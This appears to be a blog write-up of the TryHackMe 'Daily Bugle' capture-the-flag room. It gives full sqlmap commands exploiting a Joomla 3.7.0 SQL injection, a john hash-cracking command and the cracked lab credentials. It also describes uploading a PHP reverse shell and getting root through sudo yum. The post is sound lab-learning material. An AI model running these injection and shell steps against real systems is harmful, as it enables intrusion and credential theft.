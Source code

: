 +++
title="DailyBugle"
date=2020-06-10T21:19:10+02:00
author = "Somecookie"
description = "Daily Bugle - Compromise a Joomla CMS account via SQLi, practice cracking hashes and escalate your privileges by taking advantage of yum."
tags = ["joomla","sqli","yum","sqlmap","tryHackMe","CTF","hard","OSCP-learning-path"]
cover="img/dailyBugle/banner.png"
+++

Hello everyone! I'm currently going through the `offensive pentesting` learning path on TryHackMe. So today I'm going to do the [Daily Bugle](https://tryhackme.com/room/dailybugle) room. This a hard room however I found it not that difficult! If you have done the previous rooms of the learning path you should be able to solve it!

## NMAP is your best-friend!

As always I start with `nmap`! 

{{< image src="/img/dailyBugle/nmap.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There are three open services `SSH`, an `Apache` webserver and a `MariaDB` database. I wanted to try something I learnt in the [Blue](https://tryhackme.com/room/blue) room. `nmap` can run the script `vuln` to detect vulnerabilities on the remote server. Thus I ran a second scan `nmap -sC -sV --script=vuln 10.10.114.124`. I found out two interesting things with this scan, some subdirectories of the webserver

{{< image src="/img/dailyBugle/enum.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

but most importantly, the CMS used, `Joomla! 3.7.0`, is vulnerable!

{{< image src="/img/dailyBugle/joomla.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Spidey the thief

Let's access the HORRENDOUS website...

{{< image src="/img/dailyBugle/dailyBugle.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Okay `Spider-man` robbed a bank...Other than this masterpiece of article, there is nothing interesting on the website. Let's see what we can find on [ExploitDB](https://www.exploit-db.com/exploits/42033) about Joomla 3.7.0.

{{< image src="/img/dailyBugle/sqli.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

The command of the exploit tells us the available databases, let's run it without the `level=5` otherwise I take ages...

```bash
sqlmap -u "http://10.10.34.93/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering]

...

available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

The most interesting database is probably `joomla`, let's find out its tables:

```bash
sqlmap -u "http://10.10.34.93/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```

mmmh there are 72 tables...I guess `#__users` is the one we want to dump...

```bash
sqlmap -u "http://10.10.34.93/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump
```

Bingo we find a user!

{{< image src="/img/dailyBugle/superuser.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Johnny

The password is not in plaintext! That would be too easy. It's hashed with `bcrypt`.
Let's try to brute-force it with our friend `john`:

```bash
sudo john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

After a few long minutes we cracked the password! Ah yeah...`spiderman123`...how surprising...

{{< image src="/img/dailyBugle/jonah.jpg" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We have the credentials for the following user:

```text
id          811
name        Super User
email       jonah@tryhackme.com
username    jonah
password    spiderman123
```

## The super template!

Since Jonah is the editor-in-chief, he is probably also admin of the website. Let's see if we can connect to the `Administrator` page we found in the `nmap` scan.

{{< image src="/img/dailyBugle/admin.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It works! After a few minutes looking around I finally found out where I could upload a reverse shell! Directly in the default template `protostar`!

{{< image src="/img/dailyBugle/index.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Let's get the [reverse shell code](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), put it in `index.php` with the desired IP address and port. Last thing left to do is to set up a listener with netcat...btw what's your favorite port?

We have a shell! 

{{< image src="/img/dailyBugle/shell.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

But don't be too happy, the user `apache` is...mmeeeh... you can't even access the home directory of the other user `jjameson` where the flag is probably located...

## It's time for the cutest peas in the world!

{{< image src="/img/dailyBugle/peass.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Let's upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) onto the webserver...for example in `/dev/shm` with a simple http server.

{{< image src="/img/dailyBugle/upload.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There is something odd in the results from linpeas...a password in `/var/www/html/configuration.php`...but for what??!

{{< image src="/img/dailyBugle/pwd.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## And as always don't forget SSH

I was stuck on this...for ages...I have a username, a password, ssh is open, I wonder what are the links between those...oh...

{{< image src="/img/dailyBugle/facepalm.jpg" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

I connect with SSH  with the user `jjameson` and the password found by linpeas and BAM it works! Plus I get the `user.txt` flag.

## Not the biggest mountain

Let's first use `sudo -l` to see our permissions:

```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```

We can run `sudo` on `yum` without password! Let's use the exploit found on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) and spawn a root shell!

{{< image src="/img/dailyBugle/gtfo.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Simply copy it and...

{{< image src="/img/dailyBugle/root.jpg" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

As always the root flag is in `/root/root.txt`. We are done! You know what it means...DELETE EVERYTHING!!!

{{< image src="/img/dailyBugle/rm.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}